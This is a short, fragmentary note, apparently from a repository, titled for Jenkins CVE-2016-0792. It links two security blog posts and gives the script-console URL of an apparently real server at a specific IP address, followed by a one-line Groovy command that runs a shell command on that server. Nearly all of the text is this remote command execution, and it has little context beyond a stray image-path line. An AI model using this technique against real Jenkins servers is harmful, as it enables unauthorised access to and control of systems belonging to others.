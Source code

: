 Jenkins-CVE-2016-0792:
http://www.cnblogs.com/sevck/p/5225629.html

http://www.freebuf.com/sectool/88143.html

http://139.224.74.135:8080/script
println "ls".execute().text
